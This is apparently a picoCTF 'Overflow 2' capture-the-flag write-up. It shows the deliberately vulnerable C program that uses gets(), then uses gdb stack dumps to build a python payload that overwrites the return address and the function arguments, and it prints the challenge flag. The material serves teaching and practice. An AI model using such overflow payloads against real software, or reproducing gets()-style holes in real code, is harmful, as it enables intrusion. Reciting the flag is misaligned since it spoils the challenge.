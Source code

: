 
# Binary Exploitation - Overflow 2 (250 points)

## Challenge

*Now try overwriting arguments. Can you get the flag from this [program](./vuln)? You can find it in /problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446 on the shell server. [Source](./vuln.c).*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{arg5_and_r3turn51b106031}

## Walkthrough

This challenge is based on the same vulnerability than OverFlow 1 : the function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries).

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
  [...]
}
```

But it's a little more complicated this time, because the function `void flag(unsigned int arg1, unsigned int arg2)` has to be called with two arguments with specific values:

```bash
void flag(unsigned int arg1, unsigned int arg2) {
  [...]
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}
```

Our overflow in `buf` will have two goals here:

* Set the return address of `void vuln()` to point to `void flag()`.
* Set the correct values for the two arguments of `void flag()` which have to be *0xDEADBEEF* and *0xC0DED00D*.

First let's get the start address of `void flag()` using gdb:

```bash
root@kali:~/Downloads# gdb ./vuln
[...]
(gdb) info functions
All defined functions:

Non-debugging symbols:
[...]
0x080485e6  flag
0x08048676  vuln
0x080486b5  main
[...]
```

So the return address has to be set to 0x080485e6.

Now, time to play a little with GDB to get the size ofour overflow:

```bash
root@kali:~/Downloads# gdb ./vuln
[...]]
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08048676 <+0>:     push   %ebp
   0x08048677 <+1>:     mov    %esp,%ebp
   0x08048679 <+3>:     push   %ebx
   0x0804867a <+4>:     sub    $0xb4,%esp
   0x08048680 <+10>:    call   0x8048520 <__x86.get_pc_thunk.bx>
   0x08048685 <+15>:    add    $0x197b,%ebx
   0x0804868b <+21>:    sub    $0xc,%esp
   0x0804868e <+24>:    lea    -0xb8(%ebp),%eax
   0x08048694 <+30>:    push   %eax
   0x08048695 <+31>:    call   0x8048430 <gets@plt>
   0x0804869a <+36>:    add    $0x10,%esp
   0x0804869d <+39>:    sub    $0xc,%esp
   0x080486a0 <+42>:    lea    -0xb8(%ebp),%eax
   0x080486a6 <+48>:    push   %eax
   0x080486a7 <+49>:    call   0x8048460 <puts@plt>
   0x080486ac <+54>:    add    $0x10,%esp
   0x080486af <+57>:    nop
   0x080486b0 <+58>:    mov    -0x4(%ebp),%ebx
   0x080486b3 <+61>:    leave  
   0x080486b4 <+62>:    ret
End of assembler dump.
```

We are going to set a breakpoint just after the *gets()* call, and then display the stack content:

```bash
(gdb) break *0x0804869a
Breakpoint 1 at 0x804869a
(gdb) run <<< $(python -c "print('\x41\x41\x41\x41')")
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41\x41\x41\x41')")
Please enter your string:

Breakpoint 1, 0x0804869a in vuln ()
(gdb) x/100wx $esp
0xffffd240:     0xffffd250      0x08048831      0x0000001a      0x08048685
0xffffd250:     0x41414141      0xf7fb6f00      0x00000000      0x000007d4
0xffffd260:     0x0000001a      0xf7fb6f80      0xf7fb7640      0x00000001
0xffffd270:     0x0000000a      0xf7fb6000      0xffffd2f8      0xf7e56337
0xffffd280:     0xf7fb6d80      0x0000001a      0xf7fb6d80      0xf7e56723
0xffffd290:     0xf7fb6d80      0xf7fb6dc7      0x00000001      0x00000001
0xffffd2a0:     0x00000001      0x00000000      0xf7e570a9      0xf7fb7640
0xffffd2b0:     0x0000001a      0xf7fb6000      0xffffd2f8      0xf7e4b2db
0xffffd2c0:     0xf7fb6d80      0x0000000a      0x0000001a      0xf7ea235d
0xffffd2d0:     0x00000000      0xf7fb6e1c      0xf7fb6d80      0x0000001a
0xffffd2e0:     0xffffd328      0xf7fe9450      0x00000000      0x0804a000
0xffffd2f0:     0xf7fb6000      0xf7fb6000      0xffffd328      0x08048714
0xffffd300:     0x08048831      0x0804a000      0xffffd328      0x0804871c
0xffffd310:     0x00000001      0xffffd3d4      0xffffd3dc      0x00000000
```

*buf* starts at 0xffffd250, and our return address is at 0xffffd30c (because at this adress we found the address of the nextinstruction in *main()* right after *vuln()*). So we have to write (0xffffd30c - 0xffffd250) characters before the return address. Let's try it:

```bash
(gdb) run <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08')")
Please enter your string:

Breakpoint 1, 0x0804869a in vuln ()
(gdb) x/100wx $esp
0xffffd240:     0xffffd250      0x08048831      0x0000001a      0x08048685
0xffffd250:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd260:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd270:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd280:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd290:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd300:     0x41414141      0x41414141      0x41414141      0x080485e6
[...]
```

It fits perfectly, and the return address is overwritten. Now, we just have to overwrite the arguments (without forgetting to add a 4 bytes padding to cover the return address just after the address we have overwritten):

```bash
(gdb) run <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08' + '\x41'*4 + '\xef\xbe\xad\xde\x0d\xd0\xde\xc0')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*188 + '\xe6\x85\x04\x08' + '\x41'*4 + '\xef\xbe\xad\xde\x0d\xd0\xde\xc0')")
Please enter your string:

Breakpoint 1, 0x0804869a in vuln ()
(gdb) x/100wx $esp
0xffffd240:     0xffffd250      0x08048831      0x0000001a      0x08048685
0xffffd250:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd260:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd270:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd280:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd290:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd2f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd300:     0x41414141      0x41414141      0x41414141      0x080485e6
0xffffd310:     0x41414141      0xdeadbeef      0xc0ded00d      0x00000000
[...]
```

Memory speaking, everything seems good. Now in real conditions:

```bash
m3oow@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ (python -c "print('\x41'*188 + '\xe6\x85\x04\x08' + '\x41'*4 + '\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"; cat -) | ./vuln
Please enter your string:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
picoCTF{arg5_and_r3turn51b106031}
Segmentation fault (core dumped)
```
